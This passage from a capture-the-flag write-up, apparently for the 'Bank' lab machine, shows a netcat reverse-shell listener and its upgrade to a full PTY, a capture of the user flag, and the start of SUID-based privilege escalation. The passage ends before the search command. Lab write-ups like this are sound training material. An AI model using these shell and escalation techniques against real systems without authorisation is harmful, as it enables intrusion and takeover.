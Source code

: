 

I'll upgrade the shell to a PTY with the [standard
technique](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/):



    www-data@bank:/var/www/bank/uploads$ python -c 'import pty;pty.spawn("bash")'
    python -c 'import pty;pty.spawn("bash")'
    www-data@bank:/var/www/bank/uploads$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443
                                                         reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@bank:/var/www/bank/uploads$ 



In the home directory of chris, I'll find `user.txt`:



    www-data@bank:/home/chris$ cat user.txt 
    37c97f86************************



## Priv: www-data --\> root

There are two paths to root (in addition to surely some kernel exploits
since this box is old). Both will be identified in
[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
or [LinEnum](https://github.com/rebootuser/LinEnum), but I'll show the
commands to identify the vector.

### emergency - Path #1

#### Enumeration

One thing to look for is binaries with the Set UID flag active. These
are executables that are configured such that they run not as the
current user, but as the file's owner. So when a binary is SUID and
owned by root, it will run as root. If I can trick that file into
running other commands, I have command execution as root.

A SUID binary will have an `s` instead of an `x` in the executable
permission for the user in `ls -l` output, like this:



    $ ls -l /usr/bin/passwd
    -rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd



I can search for all SUID binaries owned by root on the system with this
`find` command:
